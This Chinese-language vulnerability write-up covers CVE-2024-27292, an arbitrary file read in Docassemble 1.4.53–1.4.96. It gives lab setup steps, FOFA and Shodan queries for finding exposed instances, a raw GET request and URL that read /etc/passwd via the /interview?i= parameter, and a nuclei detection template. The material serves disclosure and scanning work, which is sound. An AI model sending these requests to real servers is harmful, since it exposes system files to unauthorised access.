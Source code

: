**漏洞名称**

Docassemble任意文件读取漏洞

**漏洞影响**

docassemble的1.4.53到1.4.96的版本均受影响，master分支的1.4.97版本中已对该漏洞进行了修补。

https:*//github.com/jhpyle/docassemble*

**靶场搭建**

```yaml
git clone https://github.com/jhpyle/docassemble
cd docassemble
git checkout v1.4.96
docker build -t yourname/mydocassemble .
cd ..
docker run -d -p 80:80 -p 443:443 --restart always --stop-timeout 600 yourname/mydocassemble
```

**漏洞描述**


Docassemble是一个基于Python、YAML和Markdown的免费、开源的专家系统，用于指导面试和文件组装。该系统/interview接口处存在任意文件读取漏洞，会导致服务器数据泄露，请及时修复

**FOFA搜索语句**

icon_hash="-575790689"

**漏洞复现**

POC数据包如下，读取/etc/passwd文件内容

```yaml
GET /interview?i=/etc/passwd HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/9.1.2 Safari/605.1.15
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```

get请求，直接用浏览器访问即可

```yaml
http://x.x.x.x/interview?i=/etc/passwd
```

**nuclei poc**

```yaml
id: CVE-2024-27292

info:
  name: Docassemble任意文件读取漏洞
  author: fgz
  severity: high
  description: |
    Docassemble is an expert system for guided interviews and document assembly. The vulnerability allows attackers to gain unauthorized access to information on the system through URL manipulation. It affects versions 1.4.53 to 1.4.96. The vulnerability has been patched in version 1.4.97 of the master branch.
  reference:
    - https://tantosec.com/blog/docassemble/
    - https://github.com/jhpyle/docassemble/security/advisories/GHSA-jq57-3w7p-vwvv
    - https://github.com/jhpyle/docassemble/commit/97f77dc486a26a22ba804765bfd7058aabd600c9
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
    cvss-score: 7.5
    cve-id: CVE-2024-27292
    cwe-id: CWE-706
    epss-score: 0.00043
    epss-percentile: 0.0866
  metadata:
    verified: true
    max-request: 1
    shodan-query: http.title:"docassemble"
    fofa-query: icon_hash="-575790689"
  tags: cve,cve2024,docassemble,lfi

http:
  - method: GET
    path:
      - "{{BaseURL}}/interview?i=/etc/passwd"

    matchers-condition: and
    matchers:
      - type: regex
        regex:
          - "root:.*:0:0:"

      - type: status
        status:
          - 501
```


